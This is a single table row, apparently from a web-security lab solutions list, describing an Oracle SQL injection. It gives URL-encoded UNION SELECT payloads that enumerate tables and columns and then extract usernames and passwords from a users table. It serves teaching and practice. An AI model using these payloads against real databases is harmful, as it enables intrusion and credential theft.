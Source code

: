 |34    |SQL injection attack, listing the database contents on Oracle                                                            |'UNION+SELECT+table_name,NULL+FROM+all_tables--  'UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_OHUMHM'--  '+UNION+SELECT+USERNAME_VORBBT,+PASSWORD_LJNRHS+FROM+USERS_OHUMHM--                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |Remember that Oracle SELECT statements must have a FROM and the default table ‘dual’ can be used. Listing the tables: 'UNION+SELECT+table_name,NULL+FROM+all_table-- Getting the columns from the interesting table identified: 'UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_OHUMHM'-- Getting the user and pass from the columns within the username table: '+UNION+SELECT+USERNAME_VORBBT,+PASSWORD_LJNRHS+FROM+USERS_OHUMHM--                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |Practitioner, SQLi                          |
